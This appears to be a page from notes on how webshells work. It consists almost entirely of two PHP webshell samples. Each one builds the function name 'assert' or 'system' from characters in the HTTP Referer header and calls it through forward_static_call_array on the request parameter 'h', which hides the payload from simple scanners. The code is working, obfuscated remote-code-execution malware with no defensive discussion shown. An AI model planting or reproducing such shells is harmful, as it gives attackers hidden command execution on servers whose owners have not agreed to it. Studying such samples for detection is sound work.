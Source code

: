 ```php
<?php
	/**
	*Noticed:(PHP5>=5.3.0,PHP7)
	*
	*/
	$password="h";
	$wx=substr($_SERVER["HTTP_REFERER"],-7,-4);
	forward_static_call_array($wx."ert",array($_REQUEST[$password]));
?>
```

```php
// test_6.php
<?php
	/**
	*Noticed:(PHP5>=5.3.0,PHP7)
	*
	*/
	$password="h";
	$wx = substr($_SERVER["HTTP_REFERER"],-7,-4);
	forward_static_call_array($wx."tem",array($_REQUEST[$password]));
?>
```

![](webshell原理.assets/6.png)
